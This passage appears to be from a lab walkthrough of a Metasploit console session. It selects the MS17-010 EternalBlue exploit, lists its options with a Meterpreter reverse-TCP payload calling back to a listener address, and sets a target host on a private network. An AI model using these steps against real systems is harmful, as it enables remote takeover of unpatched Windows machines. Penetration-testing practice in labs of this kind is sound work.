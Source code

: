 ~~~
msf6 auxiliary(scanner/smb/smb_ms17_010) > search ms17_010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection


Interact with a module by name or index. For example info 3, use 3 or use auxiliary/scanner/smb/smb_ms17_010

msf6 auxiliary(scanner/smb/smb_ms17_010) > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
~~~
To see which options are available for the exploit I run the command **show options**
~~~
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.138.4    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
~~~
The most settings are correct already, the only things which is mising is the remote host.
Since I only have to set the remote host I can enter the following command: **set RHOSTS 192.168.138.9**.
~~~
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.138.9
~~~